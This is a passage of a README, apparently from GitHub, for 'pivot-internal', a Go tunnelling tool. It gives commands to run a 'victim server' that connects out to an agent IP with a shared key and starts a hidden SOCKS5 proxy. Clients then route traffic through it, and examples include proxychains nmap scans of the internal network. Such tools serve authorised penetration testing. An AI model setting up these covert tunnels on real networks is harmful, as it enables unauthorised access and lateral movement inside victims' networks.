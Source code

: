 #### 2. Victim Server (Internal Network)
Run this on the internal network machine (connects to agent):
```bash
./pivot-internal server -key troller123 -c 103.12.0.1:8000
```

**Important:** The victim server will:
- Connect to agent on port 8000 (control connection)
- Start a local SOCKS5 server on port 9999 (only accessible by agent)
- Handle SOCKS5 requests and access internal network resources
- **No external ports are opened** - victim only makes outbound connections

Options:
- `-key`: Encryption key (must match agent)
- `-c`: Agent server address to connect to

#### 3. Client(s) (Your Local Machines)
Run multiple clients connecting to the agent:

Client 1:
```bash
./pivot-internal client -key troller123 -r 103.12.0.1:1080 -l :1081
```

Client 2:
```bash
./pivot-internal client -key troller123 -r 103.12.0.1:1080 -l :1082
```

Options:
- `-key`: Encryption key (must match agent)
- `-r`: Agent server address
- `-l`: Local SOCKS5 proxy listen address

### Using the Proxy
Once the client is running, configure your applications to use the SOCKS5 proxy at `127.0.0.1:1081`.

Examples:
```bash
# Using curl with SOCKS5 proxy
curl --socks5 127.0.0.1:1081 http://internal-server.local

# Using proxychains
echo "socks5 127.0.0.1 1081" >> /etc/proxychains.conf
proxychains nmap -sT internal-network.local

# Browser configuration
# Configure your browser to use SOCKS5 proxy: 127.0.0.1:1081
```

## Building

### Local Build
```bash
go build -o pivot-internal
```
